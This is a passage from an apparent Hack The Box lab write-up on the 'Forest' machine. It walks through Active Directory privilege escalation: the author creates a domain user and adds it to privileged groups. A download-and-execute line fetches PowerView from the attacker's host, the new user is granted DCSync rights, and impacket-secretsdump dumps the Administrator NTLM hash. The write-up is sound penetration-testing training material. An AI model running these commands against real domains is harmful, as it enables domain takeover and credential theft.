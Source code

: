 So, we have four (4) things to do :
- Create a user
- Add it to the **"Exchange Windows Permission"s** group
- Add it to the **"Remote Management Users"** group (to have remote access rights)
- Abuse weak permission on DACLs to get **DCSync** rights

First, the user and groups attribution. 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user ax Qwerty1! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" ax /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" ax /add
The command completed successfully.
```

Seems good, let's check if the new user is working.

```bash
$ crackmapexec smb 10.129.95.210 -u ax -p 'Qwerty1!' -d htb.local
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\ax:Qwerty1! 
```

Perfect! Now, to abuse the DACL, we used a well-known PowerShell that aims to gain network situational awareness on Windows domains, [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1). Note that we used the local **Apache** service on Kali to host the file and download it from the remote machine.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> (New-Object System.Net.WebClient).DownloadString('http://10.10.14.xx/PowerView.ps1') | IEX
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPass = ConvertTo-SecureString 'Qwerty1!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\ax', $SecPass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity ax -Credential $Cred -Rights DCSync
```

Now that **ax** have *DCSync* permission, we should be able to dump users hashes from the domain controller.

## Dump the Administrator Hash

Here, we used [impacket-secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py), another tool from the *Impacket* suite to dump the **Administrator** password.

Note the `-just-dc-user` switch that extract only NTDS.DIT data for the user specified and the `just-dc-ntlm` that extract only NTDS.DIT data (NTLM hashes only).

```bash
$ impacket-secretsdump htb.local/ax@10.129.95.210 -just-dc-user Administrator -just-dc-ntlm
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
[*] Cleaning up... 
```
